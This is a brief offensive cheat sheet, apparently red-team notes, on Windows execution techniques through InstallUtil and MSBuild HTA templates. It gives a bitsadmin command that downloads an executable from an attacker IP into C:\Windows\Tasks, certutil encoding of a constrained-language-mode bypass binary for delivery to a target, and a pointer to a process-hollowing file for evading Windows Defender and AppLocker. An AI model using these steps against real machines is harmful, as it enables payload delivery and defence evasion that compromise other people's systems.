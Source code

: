 # Execution Techniques

## InstallUtil (installutil.hta)

*Note: If* `curl` *is unavailable on the target system, use* `bitsadmin` *as an alternative:*

- `bitsadmin /transfer myJob http://192.168.45.199/scanVenger.exe C:\Windows\Tasks\scanvenger.exe`

- Compile a C# executable that implements a custom PowerShell runspace.

- Convert the compiled executable to a text file using `certutil`:

  - `certutil -encode clm-bypass.exe file.txt`

- Utilize the InstallUtil template to prompt the target to download the `file.txt` file, initiating the execution process.

## MSBuild (msbuild.hta)

- Leverage the `hollow.xml` file, available at hollow.xml, to bypass Windows Defender and AppLocker default rules.
